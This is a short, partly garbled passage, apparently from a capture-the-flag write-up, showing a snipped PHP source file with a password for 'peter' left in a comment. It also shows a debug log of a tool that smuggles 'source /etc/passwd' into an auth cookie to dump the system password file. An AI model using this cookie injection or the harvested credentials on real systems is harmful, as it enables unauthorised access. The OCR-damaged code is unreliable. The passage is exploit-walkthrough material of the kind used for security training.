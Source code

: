     public
    if(!$username){
    $username
    $password
    }
    //modified
    //for
    //fix
    //peter
    //CQXpm\z)G5D#%S$y=
    }
    public
    if($result
    static::passed($test_name);
    ...(Snip)...

That's part of the the code. It contains creds to peter

    peter:CQXpm\z)G5D#%S$y=

When i read /etc/passwd i did not find a user with name peter in it.

    #> .readfile /etc/passwd
    DEBUG:__main__:auth_cookie: 'xxxx\nsource /etc/passwd\n'
    DEBUG:__main__:dummy exec returned: None
    INFO:__main__:root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    libuuid:x:100:101::/var/lib/libuuid:
    syslog:x:101:104::/home/syslog:/bin/false
    messagebus:x:102:106::/var/run/dbus:/bin/false
    landscape:x:103:109::/var/lib/landscape:/bin/false
    telegen:x:1000:1000:telegen,,,:/home/telegen:/usr/bin/lshell
    sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
    mysql:x:105:113:MySQL
    colord:x:106:116:colord
    staged-dev:x:4000000000:1001::/home/staged-dev:/bin/sh
